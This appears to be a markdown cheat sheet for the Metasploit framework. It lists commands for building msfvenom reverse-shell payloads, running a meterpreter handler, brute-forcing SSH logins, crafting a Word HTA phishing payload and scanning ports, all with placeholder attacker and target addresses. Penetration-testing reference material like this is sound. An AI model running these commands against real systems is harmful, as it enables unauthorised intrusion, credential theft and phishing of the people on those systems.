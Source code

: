 ##Metasploit

Metasploit is an open-source penetration testing framework that provides a platform for developing, testing, and executing exploit code against a remote target


### Set up a reverse TCP shell on a Windows MS-SQL server

### In MSFVenom, create a payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip} -f exe -o payload.exe

### In MSF6, use Metasploit
use exploit/multi/handler
set payload /windows/meterpreter/reverse_tcp
setg LHOST {ip}
run

### Exploiting Known Vulnerabilities
Metasploit can be used to exploit known vulnerabilities in target systems. For example, if a target system is known to be vulnerable to a specific exploit, security professionals can use the corresponding Metasploit module to assess and demonstrate the impact.

msfconsole
use exploit/<exploit_module>
set RHOSTS <target_ip>
exploit

### Password Attacks
Metasploit includes modules for password attacks, such as brute-force attacks and credential spraying. These modules can be used to test the strength of passwords on target systems.

msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target_ip>
set USER_FILE <user_list>
set PASS_FILE <password_list>
run

### Phishing Campaigns
Metasploit can be used to simulate phishing attacks by creating malicious payloads embedded in emails or websites. This helps organizations assess their susceptibility to social engineering.

msfconsole
use exploit/windows/fileformat/office_word_hta
set PAYLOAD <payload_type>
set LHOST <attacker_ip>
exploit

### Post-Exploitation Activities
After successfully compromising a target, Metasploit's Meterpreter payload can be used for various post-exploitation activities, including file manipulation, privilege escalation, and lateral movement.

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
exploit

### Network Scanning and Enumeration
Metasploit includes modules for network scanning and enumeration, allowing security professionals to gather information about target networks and systems.

msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip_range>
run

### Payload Generation
Metasploit can generate custom payloads for various platforms and scenarios. This is useful for creating specific executable files or scripts tailored to the target environment.

msfvenom -p <payload_type> LHOST=<attacker_ip> LPORT=<attacker_port> -f <output_format> > output_file

